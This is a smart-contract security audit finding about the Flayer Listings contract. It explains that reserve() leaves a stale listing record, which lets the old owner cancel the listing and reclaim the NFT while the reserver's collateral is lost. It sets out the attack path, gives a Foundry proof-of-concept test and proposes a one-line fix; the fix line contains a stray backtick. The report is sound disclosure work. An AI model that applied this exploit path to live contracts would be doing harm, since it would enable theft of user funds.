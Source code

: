 Loud Bone Cottonmouth

High

# After reserving of a listing old owner can steal listing

### Summary

Lack of record clearing of the `_listings` mapping at `Listings` contract allows for stealing the token by the old listing owner when new owner reserves the listing by calling `Listings.reserve()`.

### Root Cause

At `Listings.reserve()` there is lack of `delete `_listings[_collection][_tokenId]` which leads to keeping the ownership of a listing by the old owner when someone calls `Listings.reserve()`.

The problematic function:
https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L690

### Internal pre-conditions

1. A listing needs to be created on `Listings` contract.
2. Another user needs to call `Listings.reserve()` on one of the listing.

### External pre-conditions

No specific external pre-conditions are required.

### Attack Path

1. User1 creates a listing for token1 on `Listings` contract through `createListings()` 
2. User2 wants to reserve the token1 listing for himself and calls `reserve()` on that token and pays collateral.
3. User1 calls e.g. `cancelListing()` for token1, pays the fee and takes ownership of token1
4. User2 is left with a protected listings, but cannot withdraw token1 as `Locker` is not its owner anymore.

### Impact

All Users who reserve listings through `Listings.reserve()` and pay collateral, can loose their entire collateral, as the withdrawal of their reserved tokens will not be possible if they are taken over by the old listings's user.

Note here that when the `_listings` mapping is not cleared, `cancelListings()`, by the old owner is not the only problematic path. The remaining "ghost" listing, could be filled, relisted or even reserved again, by anyone.

### PoC

```solidity
    function test_MyFailedReserve() public {
        uint16 _floorMultiple = 101;
        address payable _owner1 = payable(address(0x01));
        address payable _owner2 = payable(address(0x02));

        // Deploy our platform contracts
        _deployPlatform();

        // Define our `_poolKey` by creating a collection. This uses `erc721b`, as `erc721a`
        // is explicitly created in a number of tests.
        locker.createCollection(address(erc721a), 'Test Collection', 'TEST', 0);

        // Initialise our collection
        _initializeCollection(erc721a, SQRT_PRICE_1_2);

        // Mint our token to the _owner and approve the {Listings} contract to use it
        erc721a.mint(_owner1, TOKEN_ID);

        deal(address(locker.collectionToken(address(erc721a))), _owner1, 2 ether);
        deal(address(locker.collectionToken(address(erc721a))), _owner2, 2 ether);

        // Create our listing for owner 1
        vm.startPrank(_owner1);
        erc721a.approve(address(listings), TOKEN_ID);
        _createListing({
            _listing: IListings.CreateListing({
                collection: address(erc721a),
                tokenIds: _tokenIdToArray(TOKEN_ID),
                listing: IListings.Listing({
                    owner: _owner1,
                    created: uint40(block.timestamp),
                    duration: VALID_LIQUID_DURATION,
                    floorMultiple: _floorMultiple
                })
            })
        });

        // owner2 reserves the listing for himself and pays some collateral
        // The owner2 then takes the token out
        vm.startPrank(_owner2);
        locker.collectionToken(address(erc721a)).approve(address(listings), 1 ether);
        listings.reserve(address(erc721a), TOKEN_ID, 0.5 ether);
        vm.stopPrank();

        IListings.Listing memory listing = listings.listings(address(erc721a), TOKEN_ID);

        // we can see here that the listing still exists on the Listings contract
        console.log("Listing owner: %", listing.owner);

        // the old owner cancels the listing.
        vm.startPrank(_owner1);
        locker.collectionToken(address(erc721a)).approve(address(listings), 1.5 ether);
        listings.cancelListings(address(erc721a), _tokenIdToArray(TOKEN_ID), false);
    
        address ownerOfToken = erc721a.ownerOf(TOKEN_ID);

        // we can see that the old owner (_owner1) took over the token, while the _onwer2
        // is left with a protected listing, but the token is already gone from the contract
        console.log("owner of the token: %", ownerOfToken);

    }
```

### Mitigation

To mitigate the issue the following line needs to be added to the `reserve()` function at `Listings`:
```solidity
delete `_listings[_collection][_tokenId];
```